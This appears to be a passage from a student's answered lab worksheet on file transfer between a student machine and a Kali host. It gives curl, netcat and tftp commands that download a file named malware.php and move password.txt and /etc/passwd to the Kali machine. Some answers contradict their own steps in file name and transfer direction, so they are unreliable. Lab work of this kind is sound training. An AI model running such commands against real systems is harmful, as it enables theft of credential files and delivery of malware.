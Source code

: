 3. On your Student machine, download the malware.txt file with the cURL command.
    > Your command : curl -O http://192.168.149.29:5000/malware.php

4. On the student machine, create a file named password.txt and transfer it to your kali machine with netcat
    > Your commands :  nc 192.168.149.29 5000 > password.txt

5. On the student machine,  transfer ``/etc/passwd`` file to your kali machine with tftp
    > Your commands: tftp 192.168.149.29 + tftp> get passwd + tftp> quit


